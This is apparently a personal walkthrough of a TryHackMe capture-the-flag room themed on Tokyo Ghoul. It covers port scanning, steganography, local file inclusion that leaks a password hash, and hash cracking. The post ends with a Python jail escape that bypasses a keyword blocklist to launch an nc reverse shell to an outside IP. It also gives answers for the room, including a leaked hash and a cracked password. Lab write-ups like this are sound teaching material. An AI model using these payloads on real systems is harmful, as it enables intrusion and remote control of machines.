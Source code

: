 ```yaml
---
layout: post
title: Tokyo Ghoul
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/tokyoghoul666
Description: Help kaneki escape jason room 
tags: security, web, hash, lfi
---
```


<img src="/assets/tuzTqo4.gif">

# Where am I?

**Use nmap to scan all ports**

- `sudo nmap tokyo.thm -p-`

**How many ports are open?**

- `3`

**What is the OS used?**

- `sudo nmap tokyo.thm -p21,22,80 -sC -sV -sT -O`

# Planning to escape 

**Did you find the note that the others ghouls gave you? where did you find it ?**

- the website

**What is the key for Rize executable?**

- `strings need_to_talk`

**Use a tool to get the other note from Rize.**

- `steghide extract -sf rize_and_kaneki.jpg -p You_found_1t`

# What Rize is trying to say? 

**What the message mean did you understand it ? what it says?**

- `d1r3c70ry_center`

**Can you see the weakness in the dark ? no ? just search**

gobuster we can find a page to lfi in. sending to gobuster and url encoding lets us access /etc/passwd and the user kamishiro's hash

kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash

**What did you find something ? crack it**

john sucks use hashcat

**what is rize username ?**

kamishiro:password123

# Fight Jason

- `sudo -l` first command tried

jail.py 

```
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

Found a python jail escape here that explains on how to get root shell from a python jail https://anee.me/escaping-python-jails-849c65cf306e

can use the following code to send back a root shell.

- `__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.3.64 6676 >/tmp/f')`